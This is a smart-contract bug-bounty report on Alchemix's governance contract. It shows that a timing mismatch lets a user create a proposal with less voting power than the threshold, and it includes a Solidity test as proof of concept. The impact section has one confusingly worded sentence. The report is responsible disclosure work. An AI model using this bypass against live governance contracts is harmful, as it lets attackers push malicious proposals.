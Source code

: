 # 31277 - \[SC - Insight] The user can propose with less voting power tha...

Submitted on May 16th 2024 at 03:55:34 UTC by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31277

Report type: Smart Contract

Report severity: Insight

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/AlchemixGovernor.sol

Impacts:

* Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description

## Brief/Intro

The user can propose with less voting power than proposalThreshold.

## Vulnerability Details

This error arises from the difference between the timing of calculating votingPower and proposalThreshold.

L2Governor.sol

```
require(
            getVotes(_msgSender(), block.timestamp - 1) >= proposalThreshold(),
            "Governor: veALCX power below proposal threshold"
        );
```

the votingPower is calculated at `block.timestamp - 1`.

but

```
function proposalThreshold() public view override(L2Governor) returns (uint256) {
        return (token.getPastTotalSupply(block.timestamp) * proposalNumerator) / PROPOSAL_DENOMINATOR;
    }
```

`proposalThreshold` is calculated at `block.timestamp` In `block.timestamp`, `VotingEscrow.totalSupplyAtT` becomes smaller than at `block.timestamp - 1` point. If a withdraw occurs at this point, it makes more changes. An attacker may artificially carry out withdraw to make the `VotingEscrow.totalSupplyAtT` smaller. Or the attacker can propose in the same transaction as soon as a user withdraw a large amount.

## Impact Details

By lowering the minimum unit price to create an offer, it makes it easier for an attacker to generate a malicious offer.

## Proof of Concept

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract AlchemixGovernorPoCTest is BaseTest {
    function setUp() public {
        setupContracts(block.timestamp);
    }

    function craftTestProposal()
    internal
    view
    returns (address[] memory targets, uint256[] memory values, bytes[] memory calldatas, string memory description)
    {
        targets = new address[](1);
        targets[0] = address(voter);
        values = new uint256[](1);
        values[0] = 0;
        calldatas = new bytes[](1);
        calldatas[0] = abi.encodeWithSelector(voter.whitelist.selector, usdc);
        description = "Whitelist USDC";
    }

    function testProposePoC1() public {
        uint256 targetTokenId = createVeAlcx(admin, TOKEN_1 * 4 - 5000, MAXTIME, false);
        uint256 userTokenId = createVeAlcx(beef, TOKEN_1 * 96, MAXTIME, false);
        uint256 votingPower = governor.getVotes(admin, block.timestamp);
        uint256 proposalThreshold = governor.proposalThreshold();

        // votingPower < proposalThreshold
        assertLt(votingPower, proposalThreshold, "votingPower >= proposalThreshold");

        hevm.startPrank(admin);

        hevm.warp(block.timestamp + 1);

        (address[] memory t, uint256[] memory v, bytes[] memory c, string memory d) = craftTestProposal();
        // this call is not failed.
        governor.propose(t, v, c, d, MAINNET);

        hevm.stopPrank();
    }

}
```
